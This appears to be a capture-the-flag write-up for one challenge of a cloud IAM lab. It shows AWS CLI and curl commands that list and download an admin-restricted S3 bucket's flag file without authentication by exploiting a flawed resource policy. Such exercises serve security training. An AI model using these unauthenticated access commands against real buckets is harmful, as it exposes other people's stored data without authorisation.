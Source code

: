 # Challenge 4

## Task
Admin only?
We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

------

1. Again we are given with Iam AssumeRole
2. Again another Resource Policy

<img width="1290" height="1031" alt="image" src="https://github.com/user-attachments/assets/f71e1843-3529-4577-abb5-ee8e180a62d1" />

------

Lets' try to list files:
```bash
$ aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request
```

> `curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"` can also do the job, as no authentication is required.

<img width="2800" height="506" alt="image" src="https://github.com/user-attachments/assets/27418496-db92-48cf-b990-11883a85d875" />

```bash
$ aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt /tmp/ --no-sign-request
```

<img width="2800" height="482" alt="image" src="https://github.com/user-attachments/assets/5cb069fc-5870-4e46-9ce0-51ee408ca5a5" />

> Flag
